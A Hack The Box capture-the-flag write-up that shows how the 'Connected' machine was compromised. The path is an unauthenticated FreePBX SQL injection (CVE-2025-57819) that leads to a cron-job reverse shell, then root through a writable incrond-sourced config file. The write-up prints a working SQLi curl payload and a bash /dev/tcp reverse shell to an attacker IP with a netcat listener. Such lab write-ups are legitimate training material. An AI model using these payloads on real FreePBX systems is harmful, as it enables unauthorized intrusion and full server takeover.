

#  CTF Writeup — Connected

## 📌 Overview

* Platform: Hack The Box
* Difficulty: Easy
* Objective: Full compromise (User flag / Root flag)

Connected is a Linux machine centered on a FreePBX 16.0.40.7 installation. Initial access is gained by exploiting an unauthenticated SQL injection vulnerability (CVE-2025-57819) that chains into remote code execution via the `cron_jobs` table. Privilege escalation to root is achieved by abusing a writable `incrond`-monitored configuration file (`/etc/dahdi/init.conf`), which is executed as root when a corresponding trigger file is modified.

---

## 🔍 Enumeration

### 1. Initial Reconnaissance

The engagement began with a port scan using RustScan to quickly identify open services:

```bash
rustscan -a 10.129.49.183 -- -A
```

Results:

```
Open 10.129.49.183:22
Open 10.129.49.183:80
Open 10.129.49.183:443
```

* **Open ports:** 22 (SSH), 80 (HTTP), 443 (HTTPS)
* **Running services:** Web application on HTTP/HTTPS, SSH management access
* **Potential attack vectors:** Web application enumeration on ports 80/443

---

### 2. Further Enumeration

Accessing port 80 redirected the browser to the hostname `connected.htb`. This was added to the local hosts file to resolve the virtual host correctly:

```bash
10.129.49.183  connected.htb
```

Browsing to `connected.htb` redirected to `connected.htb/admin/config.php`, revealing a **FreePBX 16.0.40.7 Administration** panel. Three accessible interfaces were identified from this landing page:

* **FreePBX Administration** — required authentication
* **User Control Panel** — non-functional / not loading
* **Operator Panel** — non-functional / not loading

Given the identified version, research was conducted for known FreePBX 16.0.40.7 vulnerabilities, which led to the discovery of **CVE-2025-57819**, an unauthenticated SQL injection vulnerability affecting FreePBX versions 15, 16, and 17. The vulnerability stems from insufficient sanitization of user-supplied data in application endpoints, allowing an unauthenticated attacker to manipulate backend database records and ultimately achieve remote code execution.

Two public proof-of-concept references were used to inform exploitation:

* `https://github.com/MuhammadWaseem29/SQL-Injection-and-RCE_CVE-2025-57819`
* `https://github.com/K3ysTr0K3R/CVE-2025-57819`

---

## 💥 Exploitation

* **Type:** SQL Injection → Remote Code Execution (CVE-2025-57819)
* **Location:** `/admin/ajax.php` — `FreePBX\modules\endpoint\ajax` module, `brand` parameter
* **Impact:** Unauthenticated remote code execution as the `asterisk` service user

### Vulnerability Confirmation

The injection point was validated using an `EXTRACTVALUE`-based error-based SQLi payload against the vulnerable endpoint:

```bash
curl -i -k "https://connected.htb/admin/ajax.php?module=FreePBX%5Cmodules%5Cendpoint%5Cajax&command=model&template=x&model=model&brand=x'+AND+EXTRACTVALUE(1,CONCAT('~USER:',(SELECT+USER()),'~'))+--+"
```

The server returned a `500 Internal Server Error` with a MySQL XPATH syntax error embedding the current database user in the response:

```
{"error":{"type":"Exception","message":"SQLSTATE[HY000]: General error: 1105 XPATH syntax error: '~USER:freepbxuser@localhost~'::", ...}}
```

The presence of `~USER:freepbxuser@localhost~` in the error output confirmed the SQL injection.

### Root Cause and Exploitation Chain

Public research on CVE-2025-57819 identifies two key database-level impacts of this injection:

1. Creation of unexpected administrative user entries in the `ampusers` table.
2. Insertion of attacker-controlled scheduled jobs into the `cron_jobs` table, where the `command` field is later executed by the PBX environment.

watchTowr Labs documented that inserting a row into `cron_jobs` with a frequent execution schedule causes the injected command to run, completing the chain from SQL injection to remote code execution.

The general attack chain follows this sequence:

1. Locate an internet-accessible FreePBX instance.
2. Send crafted requests to the vulnerable `ajax.php` endpoint.
3. Bypass authentication via the unauthenticated injection point.
4. Modify backend database records (`cron_jobs`).
5. Abuse the scheduled task functionality of the PBX.
6. Execute arbitrary commands as the service user.
7. Establish persistent access.
8. Achieve full compromise of the PBX server.

A corresponding Metasploit module was located (`exploit/unix/http/freepbx_unauth_sqli_to_rce`) but did not successfully establish a session during testing. A public Python exploit (K3ysTr0K3R, CVE-2025-57819) was used instead. The script:

1. Confirms the SQL injection via the `EXTRACTVALUE` technique.
2. Starts a local reverse shell listener.
3. Base64/hex-encodes a bash reverse shell payload.
4. Injects the payload into the `cron_jobs` table via a stacked `INSERT` statement, scheduled to run every minute (`* * * * *`).
5. Waits for the cron trigger to execute the payload and return a shell.

The exploit was executed as follows:

```bash
python connected.py -u http://connected.htb --lhost <attacker-ip> --lport <port>
```

This resulted in a reverse shell as the `asterisk` user:

```bash
[asterisk@connected ~]$ ls
[asterisk@connected ~]$ cat user.txt
```

**User flag captured.**

---

## 🔓 Privilege Escalation

### Local Enumeration

SUID binaries were enumerated first:

```bash
find / -perm -4000 2>/dev/null
```

Output included standard system binaries (`passwd`, `sudo`, `mount`, `pkexec`, `crontab`, `incrontab`, `at`, etc.) — nothing immediately exploitable was identified from this list.

LinPEAS was also run for broader enumeration:

```bash
linpeas.sh
```

Kernel version was identified as `5.4.239-1.el7.elrepo.x86_64`. LinPEAS flagged several kernel CVEs (e.g., CVE-2021-27365, CVE-2021-3493, CVE-2021-22555, CVE-2022-32250), but none were applicable to this target's configuration, so this path was not pursued further.

### Identified Vector

Cron and incron-related configuration was reviewed directly:

```bash
find /etc/ -name "*cron*" 2>/dev/null
```

This revealed active `incrond` configuration under `/etc/incron.d/`:

```bash
ls /etc/incron.d
# legacy  local  sysadmin
```

Reviewing each file revealed several `incrond` watch rules tied to root-owned management scripts. The `legacy` configuration was of particular interest:

```
/var/spool/asterisk/sysadmin/vpnget IN_CLOSE_WRITE /usr/sbin/sysadmin_openvpn -d
/var/spool/asterisk/sysadmin/intrusion_detection_stop IN_CLOSE_WRITE /etc/init.d/fail2ban stop
/var/spool/asterisk/sysadmin/update_system_cron IN_CLOSE_WRITE /usr/sbin/sysadmin_update_set_cron
/var/spool/asterisk/sysadmin/portmgmt_setup IN_CLOSE_WRITE /usr/sbin/sysadmin_portmgmt
/var/spool/asterisk/sysadmin/wanrouter_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_wanrouter_restart
/var/spool/asterisk/sysadmin/dahdi_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_dahdi_restart
/usr/local/asterisk/ha_trigger IN_CLOSE_WRITE /usr/sbin/sysadmin_ha
```

Each rule triggers execution of a privileged helper script (as root, via `incrond`) whenever its corresponding trigger file under `/var/spool/asterisk/sysadmin/` is written to. The `dahdi_restart` trigger (mapped to `/usr/sbin/sysadmin_dahdi_restart`) was selected as the target vector.

Write access across `/etc` was then checked:

```bash
find /etc -writable 2>/dev/null
```

This confirmed that `/etc/dahdi/init.conf` was writable by the current user — a configuration file sourced by the `sysadmin_dahdi_restart` script during execution.

### Escalation

A reverse shell payload was appended to the writable `init.conf` file, and the corresponding `incrond` trigger file was then modified to fire the watch rule:

```bash
# Append payload to the writable config sourced by the root-run script
echo 'bash -c "bash -i >& /dev/tcp/10.10.15.56/5555 0>&1" &' >> /etc/dahdi/init.conf

# On attacker machine: start listener
nc -lvnp 5555

# Trigger the incrond watch rule (IN_CLOSE_WRITE)
echo "restart" > /var/spool/asterisk/sysadmin/dahdi_restart
```

Writing to the trigger file caused `incrond` to invoke `sysadmin_dahdi_restart` as root, which sourced `/etc/dahdi/init.conf` and executed the injected payload, returning a root shell:

```bash
[root@connected root]# cat /root/root.txt
```

**Root flag captured.**

---

## Attack Flow



---

## 🧠 Lessons Learned

* **Version fingerprinting drives exploit research.** Identifying the exact FreePBX version (16.0.40.7) early made it possible to pinpoint a recently disclosed, unauthenticated SQLi-to-RCE chain (CVE-2025-57819) rather than resorting to blind fuzzing.
* **Error-based SQLi is a fast confirmation technique.** Using `EXTRACTVALUE()` to leak `SELECT USER()` through a MySQL error message provided immediate, unambiguous confirmation of the injection point before committing to a full exploit chain.
* **Public exploit tooling isn't always reliable out of the box.** The Metasploit module for this CVE failed to establish a session, reinforcing the value of having a backup PoC (the Python script) ready and understanding its underlying mechanics rather than depending on a single tool.
* **`incrond` is an underused but powerful privilege escalation surface.** Unlike traditional cron jobs, `incrond` rules trigger on filesystem events (e.g., `IN_CLOSE_WRITE`) rather than time schedules. Reviewing `/etc/incron.d/` alongside `find /etc -writable` revealed a root-executed script sourcing an attacker-writable configuration file — a pattern worth checking on any system where SUID binaries and standard cron yield nothing.
* **Real-world relevance:** FreePBX/Asterisk deployments are common in enterprise VoIP environments and are frequently internet-facing. This chain highlights the real-world impact of insufficiently sanitized AJAX endpoints in widely deployed telephony management platforms, and the danger of writable configuration files sourced by privileged automation scripts.

---

## 🧩 Tools Used

* RustScan
* CVE-2025-57819 Python PoC (K3ysTr0K3R)
* Metasploit (`exploit/unix/http/freepbx_unauth_sqli_to_rce`) — attempted, unsuccessful
* curl
* Netcat
* LinPEAS

---

## ⚠️ Notes

* Flags are intentionally omitted
* This writeup focuses on methodology and learning
